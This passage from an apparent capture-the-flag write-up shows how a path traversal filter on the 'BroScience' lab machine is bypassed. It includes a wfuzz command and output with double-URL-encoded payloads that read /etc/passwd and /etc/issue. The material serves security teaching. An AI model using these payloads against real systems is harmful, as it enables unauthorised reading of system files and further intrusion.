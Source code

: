 ```
302      GET        1l        3w       13c https://broscience.htb/update_user.php => https://broscience.htb/login.php
...[snip]...

```

I’ve cut off a bunch of meaningless 403s for paths that start with a `.`. Of interest here is `activate.php`.

## Shell as www-data

### File Read in img.php

#### Identify Filter

Visiting `/includes/img.php` returns a page saying that the `path` parameter is missing:

![image-20230330162659784](/img/image-20230330162659784.png)

If I try to visit anything with `../` in the path, it just returns “Attack detected”:

![image-20230330163045462](/img/image-20230330163045462.png)

#### Fuzzing

There’s a really nice traversal wordlist [here](https://github.com/foospidy/payloads/blob/master/other/traversal/dotdotpwn.txt) that will try all sorts of tests. I’ll use `wfuzz` (I can’t use `ffuf` until [this bug](https://github.com/ffuf/ffuf/issues/645) is fixed) to try all these, filtering out any response with the string “Attack” and any with 0 size:

```

oxdf@hacky$ wfuzz -u https://broscience.htb/includes/img.php?path=FUZZ -w dotdotpwn.txt --hs Attack --hh 0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://broscience.htb/includes/img.php?path=FUZZ
Total requests: 4648

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000000166:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fissue"
000000165:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
000000162:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252f..%252fetc%252fissue"
000000161:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
000000158:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252fetc%252fissue"
000000157:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252fetc%252fpasswd"

Total time: 46.66168
Processed Requests: 4648
Filtered Requests: 4642
Requests/sec.: 99.61064

```

